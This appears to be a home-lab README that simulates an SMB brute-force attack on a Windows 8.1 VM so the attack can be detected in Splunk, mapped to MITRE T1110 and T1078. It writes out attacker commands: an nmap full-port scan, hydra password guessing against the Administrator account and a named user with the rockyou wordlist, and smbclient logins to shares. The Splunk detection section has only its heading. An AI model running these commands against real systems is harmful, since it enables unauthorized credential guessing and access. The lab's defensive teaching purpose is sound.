 # Brute Force Detection (Windows 8 + Splunk)

This lab simulates a brute-force attack on a Windows 8.1 VM using the SMB protocol and detects it using Splunk. It follows MITRE ATT&CK techniques:
- T1110: Brute Force
- T1078: Valid Accounts

---

## 🛠️ Lab Setup

### Machines
- **Attacker**: Kali Linux (Hydra, smbclient)
- **Victim**: Windows 8.1 (Build 9600) with:
  - Sysmon
  - Splunk Universal Forwarder
- **SIEM**: Splunk Enterprise (host machine)

### Tools Used
- `hydra`: for brute-force attack
- `smbclient`: for SMB access attempts
- `Sysmon`: for process and network monitoring
- `Splunk`: for log ingestion and analysis

---

## 🧪 Attack Steps

### 1. Scan the target for open ports (RDP/SMB) (Kali)
```bash
nmap -sV -O -p- 192.168.29.236
```
![Description for image 1](../Screenshots/BF-img1.png) 

### 2. SMB Brute Force via Hydra (Kali)
```bash
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt smb://192.168.29.236
```
or 
```bash
hydra -l Futwear -P /usr/share/wordlists/rockyou.txt smb://192.168.29.236 
```
![Description for image 1](../Screenshots/BF-img2.png) 

### 3. Login to smb with valid credentials (Kali)
**checks available shares**
```bash
smbclient -L //192.168.29.236 -U Futwear
```

![Description for image 1](../Screenshots/BF-img3.png) 

**To access and login to the smb shares**
```bash
smbclient -U Futwear //192.168.29.236/IPC$ -m SMB2
```
![Description for image 1](../Screenshots/BF-img4.png) 

### 4. Investigate in Splunk